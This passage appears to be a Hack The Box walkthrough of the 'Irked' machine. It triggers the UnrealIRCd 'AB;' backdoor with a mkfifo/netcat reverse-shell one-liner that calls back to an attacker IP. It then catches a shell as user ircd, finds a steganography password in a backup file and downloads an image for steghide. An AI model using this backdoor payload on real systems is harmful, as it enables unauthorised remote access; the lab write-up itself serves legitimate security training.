 And we have some `RCE` exploits.

## Low Shell

Reading up the exploit shows that there is a backdoor in the software that is triggered when we enter the keyword `AB;`. Run a reverse shell payload to get shell.

```bash
kali@kali:~/Desktop/htb/irked$ nc irked.htb 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.21 443 >/tmp/f
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
```

On the listener, we get a connection.

```bash
kali@kali:~/Desktop/htb/irked$ sudo nc -lvp 443
[sudo] password for kali:
listening on [any] 443 ...
connect to [10.10.14.21] from irked.htb [10.10.10.117] 54581
bash: cannot set terminal process group (641): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

We have a shell as user `ircd`.
## User Shell

We have a limited shell right now. Looking through the directories of user `djmardov`, we can see a backup file.

```bash
ircd@irked:/home/djmardov/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

There is a hint that this is somehow related to stegnography. We can try analyzing the image on the front page using `steghide` to see if we can uncover something.

```bash
kali@kali:~/Desktop/htb/irked$ wget http://irked.htb/irked.jpg
--2020-09-01 17:22:06--  http://irked.htb/irked.jpg
Resolving irked.htb (irked.htb)... 10.10.10.117
Connecting to irked.htb (irked.htb)|10.10.10.117|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 34697 (34K) [image/jpeg]
Saving to: ‘irked.jpg’

irked.jpg                   100%[==============================================>]  33.88K  4.52KB/s    in 7.5s

2020-09-01 17:22:14 (4.52 KB/s) - ‘irked.jpg’ saved [34697/34697]


```